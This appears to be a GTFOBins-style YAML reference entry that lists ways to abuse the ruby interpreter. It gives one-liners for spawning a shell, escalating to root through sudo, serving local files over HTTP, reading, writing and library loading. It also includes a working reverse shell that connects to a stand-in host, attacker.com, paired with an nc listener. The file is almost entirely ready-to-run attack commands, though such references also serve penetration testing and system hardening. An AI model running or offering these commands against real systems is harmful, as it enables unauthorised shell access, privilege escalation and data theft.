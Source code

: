 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
---
```

